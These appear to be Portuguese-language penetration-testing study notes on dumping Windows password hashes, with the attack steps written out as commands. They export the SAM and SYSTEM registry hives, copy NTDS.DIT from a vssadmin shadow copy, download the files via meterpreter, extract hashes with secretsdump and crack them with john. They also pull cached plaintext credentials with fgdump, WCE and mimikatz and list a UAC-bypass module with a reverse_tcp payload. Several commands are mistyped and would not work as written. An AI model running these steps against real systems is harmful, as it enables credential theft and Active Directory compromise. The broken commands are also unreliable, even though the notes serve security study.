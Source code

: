##   Hashes e Senhas - Windows

Introdução: Hashes em Windows

**SAM - Security Account Manager (Windows)**

Armazena as contas de usuários

%SystemRoot%/system32/config/sam

**NTDS.DIT (Windows Server / Active Directory)**

Armazena dados do AD incluindo as contas de usuários

%SystemRoot%/ntds/ntds.dit

**SYSTEM**

Arquivo do sistema necessário para decriptar o SAM/NTDS.DIT

%SystemRoot%/system32/config/system

Obs: Os arquivos acima são protegidos quando estão em execução, ou seja você não consegue copia-los quando estiverem em uso.

**Possivel solução para acesso aos arquivos**

**LOCALMENTE**

Acesso fisico ao computador? Realizar boot com live cd e capturar os arquivos.

**REMOTAMENTE**

C:\Windows\repair (apanesa sistema antigos como XP/2003)

Salvar direo do registro do windows (Desde versões antigas a versões recentes)

Ex: reg save hklm\sam

Cópia somnbra do volume (Versões mais recentes)

Ex: vssadmin


**ATAQUE**

Obter os arquvios e usá-los para obter os hashes

Tentar descobrir os hashes obtidos

**OUTRAS TÈCNICAS**

Senhas em memória/cache - Utilizar técnicas para obter senhas em cache ou na memória do Sistema.

Pass The Hash - Técnica para utilizar um hash sem precisar quebrá-lo

Captura de hashes na rede

**Exemplo de Hashes no Windows**

**Usuário   ID    LM(LAN MANAGER)   -   NTLM(NT LAN MANAGER)**

Administrador:500:aa.......................ee:ae..........................:::

rafaela:1005:aa...........................ee == vazio (significa que não está usando LM então se torna mais fácil de quebrar.)

Obs: ID = 500 - Corresponde a uma conta de administrador.




## Obtendo hashes: Sistemas Antigos

`getuid` - Comando para saber qual o seu nivel de permissão.

C:\WINDOWS\system32\config  - Local onde ficam armazenados as senhas

C:\WINDOWS\repair - Backup das senhas

`download sam` -> comando para fazer download do sam 

`download system` -> comando para fazer download do system 

Obs: o comando download é utilizado dentro do meterpreter

samdump2 - Aplicação para  idenficar os hashs baixados.

Obtendo system e sam diretamente do reg do windows.

`shell`

`C:\> reg /?`

`C:\> reg save hklm\sam samOK`

`C:\> reg save hklm\system systemOK`

`C:\> exit`

`meterpreter> download samOK`

`meterpreter> download systemOK`

`root@kali:/home/# samdump2 systemOK samOK`

Obs: baixar os arquivos direto do reg você baixa o arquvivo mais atualizado.

Outra aplicação para extrair as hashs

`impacket-secretsdump -sam samOK -system -systemOK LOCAL`




## Obtendo hashes: Sistemas Modernos

Salvando registro sam na area de trabalho do windows

- Execute o cmd como administrador
- reg save hklm\sam sam10
- reg save hklm\system system10

Exploit para ByPass em UAC (User Local Acont)

*Obs: Para utilizar este exlploit voce dever ja ter uma sessão aberta com o alvo.*

- search uac
- exploit(windows/local/ask)
- Payload options (windows/meterpreter/reverse_tcp):

*Obs: Para esse exploit ter sucesso tambem é preciso que o usuario da maquina alvo clique em sim na janela que irar abrir no alvo.*




## Obtendo hashes: Servidores AD

`C:\> cd windows`

`C:\Windows> cd ntds`

`C:\Windows\NTDS>dir`

ntds.dit --> Arquivo que possui as credenciais do Active Director, so que o mesmo não pode ser acesso de forma direta, então sera necessario fazer os proximos passos para obtermos as informações contidas no arquivo.

vssadmin - utilitario para criar uma copia sombra dos volumes que tem no windows.

`C:\>vssadmin list volumes`

`C:\>vssadmin create shadow /forc=c`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\ntds\ntds.dit c:\ntds.dit`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\system32\config\system c:\system12`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\system32\config\sam c:\sam12`

`meterpreter > download sam12`

`meterpreter > download system12`

`meterpreter > download ntds.dit`

`impacket-secretdump -sam sam12 -system system12 LOCAL`

`impacket-secretdump -ntds ntds.dit -system system12 LOCAL`

**Descobrindo hashes **

`john --fotmat=lm hash.txt`

Obtendo hashes e senhas em cache

**fgdump**

fgdump.exe --> Permite conseguir acessar informações que estão na cache, credenciais. 

type arquivo.pwdump

type arquivo.cachedump

**WCE **

wce-universal.exe --> Ler informações de cache e exibe credenciais em texto claro.

wce-universal.exe -w

meterpreter > hashdump

**MIMIKATZ**

meterpreter > load mimikatz

meterpreter > wdigest

meterpreter > mimikatz_command -f sekurlsa::wdigest -a full

meterpreter > mimikatz_command -f sekurlsa::serchPasswords

meterpreter > mimikatz_command -f sekurlsa::logonPasswords







